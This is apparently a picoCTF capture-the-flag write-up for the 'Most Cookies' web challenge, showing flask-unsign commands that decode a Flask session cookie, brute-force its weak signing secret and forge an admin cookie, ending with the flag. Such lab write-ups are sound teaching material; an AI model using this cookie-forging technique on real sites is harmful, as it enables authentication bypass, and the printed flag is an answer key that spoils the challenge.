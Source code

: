 # PicoGym Web Exploitation Writeup


Author: [Ankur Kumar](https://github.com/awsoankur) 

Challenge Page: [Most Cookies](http://mercury.picoctf.net:35697/)

## Walkthrough
upon a lot of researching of flask session cookies and a way to bypass them
i downloaded these `flask-unsign` tools which seemed to come in handy.
i used them to decode the current flask cookie with the command:
`flask-unsign --decode --cookie eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YL_N3g.cWbIRgxgPDs6wrEmtVJiMl43e_U`.
which gave the output as `{'very_auth': 'snickerdoodle'}`
upon examining the server.py file the solution to the problem was to find out
 a cookie with the value `{'very_auth': 'admin'}`.
now to find the secret key we brute force each possible key with the cookie 
using the following command.
`flask-unsign --unsign --cookie eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YL_N3g.cWbIRgxgPDs6wrEmtVJiMl43e_U --wordlist wordlist.txt`.
for this command we need to make a file(wordlist.txt) with all the cookie names 
from the server python code.
the code should return the secret code , which in my case was `peanut butter`.
now we need to sign the required cookie with this key using the command as follows.
`flask-unsign --sign --cookie "{'very_auth':'admin'}" --secret 'peanut butter'`
this gives the cookie .
`eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YL_R1Q.ek1C_wS4Oz-AhazR7Kk6DXhZRsU`
change the cookie value to this and refreh page to get the flag



## Flag
`picoCTF{pwn_4ll_th3_cook1E5_22fe0842}`
